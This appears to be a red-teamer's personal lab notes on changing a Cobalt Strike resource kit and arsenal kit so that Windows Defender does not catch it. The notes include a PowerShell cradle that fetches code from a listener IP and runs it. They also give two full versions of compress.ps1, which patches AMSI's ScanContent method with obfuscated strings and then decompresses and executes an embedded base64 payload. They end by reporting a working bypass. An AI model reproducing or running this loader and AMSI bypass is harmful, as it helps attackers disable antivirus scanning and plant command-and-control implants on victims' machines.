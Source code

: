   loading new `arsenal kit`
![[Pasted image 20250327213617.png]]
started `listener` to test `resource kit`
```powershell
iex(iwr http://192.168.127.129/a -useb)
```
issue with `compress.ps1` i think
![[Pasted image 20250327213934.png]]
forgot to change `$s` to `$thegreatest`

![[Pasted image 20250327214231.png]]
getting caught by defender with my resource kit, need to fix this
![[Pasted image 20250327221145.png]]
able to get  beacon with defender off need to test `compress.ps1`
![[Pasted image 20250327221506.png]]
things to try in [[7. compress.ps1 - resource kit - OPTEV-RT Modification]]
#### 4.10  working `compress.ps1`
`e4f60766bc71fefacc039f45c7f60a3eba5b3d4a00fdd241b5626c908aee9747  compress.ps1`
```bash
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1);$thegreatest=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($thegreatest,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

#### 4.11 `compress.ps1` with issues
`2e0eb7ab65afb6e214aae645c5d0514bb04580f1aa4cf3d69ea2adabae70dfe1  compress.ps1`
```bash
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1);$thegreatest=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($thegreatest,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
going to copy the old working to the `4.11` and see what happens
![[Pasted image 20250331145131.png]]
copied old working one, rebuilding the `arsenal_kit`
![[Pasted image 20250331160130.png]]
![[Pasted image 20250331160141.png]]
unloading old `arsenal_kit.cna`
![[Pasted image 20250331160402.png]]
restarting the teams server and reloading the new `arsenal_kit.cna`
![[Pasted image 20250331160540.png]]
was able to bypass




